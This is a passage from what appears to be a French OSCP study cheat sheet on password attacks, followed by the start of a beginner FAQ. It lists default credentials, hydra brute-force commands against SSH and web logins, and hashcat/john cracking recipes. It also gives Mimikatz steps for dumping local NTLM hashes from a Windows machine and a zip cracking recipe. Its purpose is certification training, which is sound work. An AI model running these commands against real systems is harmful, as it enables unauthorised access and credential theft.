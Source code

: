 ### Craquage de mot de passe :
admin:admin admin:password root:root root:toor
Burpsuite si nous voulons
```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt
sudo gzip -d rockyou.txt.gz
hydra -l noman -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.10.10
hydra -l noman -P /usr/share/wordlists/rockyou.txt 192.168.10.10 http-post
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.10.10 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
hashcat -b | hashcat.exe -b # (linux et window benchmark)
```

#### Personnaliser les listes de mots
```bash
head /usr/share/wordlists/rockyou.txt > demo.txt | sed -i '/^1/d' demo.txt
# si nous voulons ajouter 1 dans tous les mots de passe alors | echo \$1 > demo.rule | hashcat -r demo.rule --stdout demo.txt
hash-identifier # (trouver le hash si simple)
hashid # (si l'id est disponible "$2y$10$)
ssh2john id_rsa > ssh.hash | hashcat -h | grep -i "ssh" # (port22)
```

#### CRACKER NTLM avec MimiKatz
```bash
# Fenêtre cible Get-LocalUser | ouvrir powershell | cd C:\tools | ls (| déjà installé sinon installer) | token::elevate (vérifier les permissions utilisateur) | lsadump::sam (dump tous les utilisateurs ntlm) |
# KALI vim noman.hash (copier hash noman) | hashcat --help | grep -i "ntlm" (vérifier le mode comme ntml valeur 1000) | hashcat -m 1000 nelly.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

#### Craquage de zip
```bash
fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' chall.zip
zip2john file.zip > zip.john
john zip.john
```

#### Tuer un port
```bash
sudo fuser -k 443/tcp
```

## Questions/Réponses Fréquemment Posées
Beaucoup de personnes m'ont posé des questions auxquelles je n'ai pas le temps de répondre individuellement. Par conséquent, voici mes réponses aux questions les plus fréquentes.

### 1. Je suis débutant, comment commencer ? Que recommandez-vous avant l'OSCP+ ?
Commencez par la certification eJPT, puis passez à la liste de TJ_Null. Résolvez quelques machines pour évaluer vos connaissances. Après cela, passez à la documentation officielle d'OffSec et résolvez les labs.
